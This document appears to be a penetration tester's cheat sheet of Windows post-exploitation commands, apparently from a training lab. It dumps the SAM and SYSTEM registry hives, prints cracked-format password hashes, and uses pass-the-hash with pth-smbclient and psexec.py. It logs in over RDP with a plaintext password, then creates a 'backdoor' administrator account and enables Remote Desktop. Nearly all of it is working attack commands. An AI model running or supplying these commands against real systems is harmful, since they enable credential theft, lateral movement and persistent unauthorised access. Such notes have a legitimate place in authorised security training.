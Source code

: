 reg save hklm\sam c:\sam
reg save hklm\system c:\system

samdump2 system sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c0e2874fb130015aec4070975e2c6071:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:d0c0896b73e0d1316aeccf93159d7ec0:::

fgdump.exe

pth-smbclient -p 4445 -U alice%aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE //127.0.0.1/c$


copied psexec.py to local folder and updated default port to the forwarded port.

python3 ./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:B74242F37E47371AFF835A6EBCAC4FFE alice@127.0.0.1 cmd.exe

rdesktop -d xor.com -u daisy -p XorPasswordIsDead17 10.11.1.122 -r clipboard:CLIPBOARD

xfreerdp --plugin rdpsnd --plugin rdpdr --data disk:home:/home -- -u cfsnspk03 10.129.3.4

xfreerdp /u:cfsnspk03 /v:10.129.3.4 /cert-ignore

### Add user
`net user backdoor backdoor123 /add`

### Add user to Administrator group
`net localgroup Administrators backdoor /add`

### Add user to remotedesktop
`net localgroup "Remote Desktop Users" backdoor /add`

### Enable RDP
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

